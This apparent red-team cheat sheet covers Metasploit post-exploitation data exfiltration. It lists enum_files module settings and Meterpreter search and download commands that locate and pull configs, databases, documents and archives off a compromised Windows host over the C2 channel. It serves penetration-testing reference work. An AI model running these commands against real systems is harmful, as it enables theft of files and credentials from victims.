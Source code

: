 # Metasploit

Search Tags: #post-exploitation #file-transfer-and-data-exfiltration #command-and-control #metasploit-framework #T1041

## Search specific file extensions

### Post Module

#### Windows

- MSF Windows Gather Generic File Collection Post Module

```
msf > use post/windows/gather/enum_files

msf post(windows/gather/enum_files) > options

Module options (post/windows/gather/enum_files):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   FILE_GLOBS   *.config         yes       The file pattern to search for in a filename
   SEARCH_FROM                   no        Search from a specific location. Ex. C:\
   SESSION                       yes       The session to run this module on


View the full module info with the info, or info -d command.

msf post(windows/gather/enum_files) > set file_globs *.txt or *.zip or *.tar.* or *.tgz or *.cab or *.rar or *.pdf or *.doc? or *.ppt? or *.pps? or *.pot? or *.xls? or *.config* or *.sql or *.db

msf post(windows/gather/enum_files) > set search_from <C:\\path\\to\\directory>

msf post(windows/gather/enum_files) > set session <session_id>

msf post(windows/gather/enum_files) > run
```

### Meterpreter

```
meterpreter > search -d [<drive_letter>:]/path/to/directory/ -f *.txt -f *.zip -f *.tar.* -f *.tgz -f *.cab -f *.rar -f *.pdf -f *.doc? -f *.ppt? -f *.pps? -f *.pot? -f *.xls? -f config* -f *.sql -f *.db -f *.png -f *.jpg -f *.jpeg
```

## Download Files

```
meterpreter > download -h
Usage: download [options] src1 src2 src3 ... destination

Downloads remote files and directories to the local machine.

OPTIONS:

    -a   Enable adaptive download buffer size
    -b   Set the initial block size for the download
    -c   Resume getting a partially-downloaded file
    -h   Help banner
    -l   Set the limit of retries (0 unlimits)
    -r   Download recursively
    -t   Timestamp downloaded files
```

- Download single file.

`meterpreter > download [<drive_letter>:]/path/to/remote/file.txt /path/to/local/directory/`

- Download multiple files using wildcard.

`meterpreter > download [<drive_letter>:]/path/to/remote/*.txt /path/to/local/directory/`

- Download multiple files in a directory recursively.

`meterpreter > download -r [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/`

---
## References

- [MITRE T1041: Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041/)